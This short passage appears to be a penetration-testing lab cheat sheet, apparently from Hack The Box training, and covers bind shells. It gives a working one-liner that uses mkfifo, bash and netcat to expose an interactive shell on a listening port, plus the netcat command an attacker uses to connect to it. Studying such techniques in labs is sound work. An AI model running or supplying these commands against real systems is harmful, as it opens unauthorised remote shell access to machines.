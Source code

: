 ## Bind Shell
Exemplary payload
```shell-session
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l targetIP Port > /tmp/f
```
Netcat connection command
```shell-session
alakin2504@htb[/htb]$ nc -nv 10.129.41.200 7777
```
